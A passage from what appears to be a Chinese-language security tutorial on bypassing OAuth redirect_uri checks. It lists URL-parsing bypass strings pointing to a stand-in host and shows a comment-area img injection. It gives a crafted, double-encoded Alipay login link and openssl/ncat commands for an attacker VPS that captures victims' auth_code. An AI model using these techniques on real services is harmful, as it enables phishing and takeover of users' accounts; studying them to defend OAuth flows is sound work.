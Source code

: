 http://www.xxx.com\@gh0st.com

http://www.xxx.com#gh0st.com

http://www.xxx.com\?gh0st.com

http://www.xxx.com\gh0st.com

http://www.xxx.com\gh0st.com

### 第三种情况：利用 URL 跳转漏洞

这其实也属于校验不完整的而绕过的一种情况，因为 OAuth 提供方只对回调 URL 的根域等进行了校验，当回调的 URL 根域确实是原正常回调 URL 的根域，但实际是该域下的一个存在 URL 跳转漏洞的 URL，就可以构造跳转到钓鱼页面，就可以绕过回调 URL 的校验了。由于此种方式只需要再结合一处 URL 跳转漏洞即可实现，暂不做案例演示。

### 第四种情况：结合跨站图片

通过在客户端或者客户端子域的公共评论区等模块，插入构造好请求的 img 标签，将 redirect_uri 参数修改为加构造好 img 标签的 URL，利用本身的域名去绕过白名单限制。

如下图所示，在评出处填写，此时当有用户访问这个页面时就会请求我们的 vps 服务器。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s561zYr6kvbqIicp1ezz1mzIyWL6mricwwNsP6aWticLuS9Orqgq3ibgZLyxXunJgtUDTGUWV9xQCzJguQ/640?wx_fmt=jpeg)

退出登录，进入登录页面，点击支付宝快速登录。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s561zYr6kvbqIicp1ezz1mzIyEpccKnc5X9NAQYQxnJgcp6HhpeN70NYHicykIy4tVmznOoniaY9KxUgA/640?wx_fmt=jpeg)

复制 URL 链接，修改 redirect_uri 参数为我们刚才评论的地址 (要用两次 url 编码)。

原 url：

https://auth.alipay.com/login/index.htm?goto=https://xxx.com:443/oauth2/publicAppAuthorize.htm?app_id=20190&redirect_uri=https://xxx.com/?login/bind/alipay/callback?token=oN7Jvtq7M&scope=auth_user

两次 url 编码：

https%253a//auth.alipay.com/login/index.htm%253fgoto%253dhttps%253a//xxx.com%253a443/oauth2/publicAppAuthorize.htm%253fapp_id%253d20190%2526redirect_uri%253dhttps%253a//xxx.com/%253flogin/bind/alipay/callback%253ftoken%253doN7Jvtq7M%2526scope%253dauth_user

在 VPS 上生成证书，然后监听 1234 端口

openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

apt install nmap

ncat --ssl --ssl-cert cert.pem --ssl-key key.pem -lvnp 1234

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s561zYr6kvbqIicp1ezz1mzIygtjfibI9V24bOYuGxQTkTfDOm2BRARPfK1Mlb4x81P2icpBKwdD815kA/640?wx_fmt=jpeg)

将修改好的 URL 链接发给普通用户，一旦他们点击登录，攻击者就能拿到他们的 auth_code。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s561zYr6kvbqIicp1ezz1mzIyibibMY0HbIArkhpbXE0MruoG2SHdpyTppYGLyT3Lz6hpsp6qFMd6anCg/640?wx_fmt=jpeg)

2.CSRF 绑定劫持漏洞
-------------

攻击者抓取认证请求构造恶意 url, 并诱骗已经登录的网用户点击 (比如通过邮件或者 QQ 等方式)。认证成功后用户的帐号会同攻击者的帐号绑定到一起。
